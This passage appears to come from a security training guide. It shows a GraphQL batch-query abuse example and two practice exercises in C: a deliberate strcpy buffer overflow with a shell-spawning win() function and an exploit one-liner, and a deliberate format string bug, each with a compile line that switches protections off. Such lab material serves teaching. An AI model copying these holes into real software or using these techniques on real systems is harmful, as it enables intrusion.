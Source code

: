 #### Batch Attacks
```graphql
# Send multiple queries
query {
  user1: user(id: "1") { name }
  user2: user(id: "2") { name }
  user3: user(id: "3") { name }
  # ... up to thousands
}
```

---

## Practical Exercise Examples

### Exercise 1: Simple Buffer Overflow
```c
// vuln.c - Compile and exploit
#include <stdio.h>
#include <string.h>

void win() {
    printf("You win!\n");
    system("/bin/sh");
}

void vulnerable(char *input) {
    char buffer[64];
    strcpy(buffer, input);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    
    printf("win() address: %p\n", win);
    vulnerable(argv[1]);
    
    return 0;
}

// Compile: gcc -o vuln vuln.c -fno-stack-protector -z execstack -m32
// Exploit: ./vuln $(python -c 'print "A"*76 + "\x??\x??\x??\x??"')
```

### Exercise 2: Format String Vulnerability
```c
// format.c
#include <stdio.h>

int main(int argc, char **argv) {
    if (argc != 2) return 1;
    
    printf(argv[1]);  // Vulnerable!
    printf("\n");
    
    return 0;
}

// Compile: gcc -o format format.c -fno-stack-protector -m32

```